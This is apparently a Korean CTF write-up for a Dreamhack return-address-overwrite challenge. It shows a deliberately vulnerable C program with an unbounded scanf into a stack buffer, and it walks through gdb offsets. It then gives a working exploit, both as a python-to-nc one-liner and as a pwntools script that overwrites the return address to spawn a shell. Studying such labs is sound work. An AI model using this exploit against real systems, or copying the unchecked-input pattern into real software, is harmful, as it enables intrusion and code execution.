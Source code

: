 ## 📍Return Address Overwrite

```c
// Name: rao.c
// Compile: gcc -o rao rao.c -fno-stack-protector -no-pie

#include <stdio.h>
#include <unistd.h>

void init() {
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
}

void get_shell() {
  char *cmd = "/bin/sh";
  char *args[] = {cmd, NULL};

  execve(cmd, args, NULL);
}

int main() {
  char buf[0x28];

  init();

  printf("Input: ");
  scanf("%s", buf);

  return 0;
}
```

#### 풀이
`main` 함수가 반환될 때 돌아갈 반환 주소에 `get_shell()` 함수의 주소를 넣어야 한다.
`scanf()` 함수의 버퍼 시작 주소를 알아내고, 리턴 주소인 `rbp+0x8`까지의 거리를 알아낸다.
버퍼 시작 주소부터 리턴 주소까지 더미 데이터로 채운다.
더미 데이터 이후에는 `get_shell()` 함수의 시작 주소를 넣는다.


`rao` 바이너리를 gdb로 분석:
![](Attachments/{3DBFE693-B01D-495B-8CCA-1428D4460714}.png)

`scanf()` 함수의 버퍼 시작 주소 = `rbp-0x30`

![](Attachments/{0F7D3B72-B913-4AB6-A0BD-BA48609C5D6C}.png)

`get_shell()` 함수의 시작 주소: `0x4006aa`

```
$ (python -c "print 'A'*0x30 + 'B'*0x8 + '\xaa\x06\x40\x00\x00\x00\x00\x00')" | nc host3.dreamhack.games 22743
```

위처럼 파이썬 인터프리터로 전달하지 말고 pwntools를 이용해보자! 😠

```python
from pwn import *

p = remote('host3.dreamhack.games', 22743)
payload = b'A'*0x30 + b'B'*0x8 + b'\xaa\x06\x40\x00\x00\x00\x00\x00'

p.sendline(payload)

p.interactive()
```

![](Attachments/{B5182A5A-5D23-4958-81C1-1B7FF2686AE5}.png)

🚩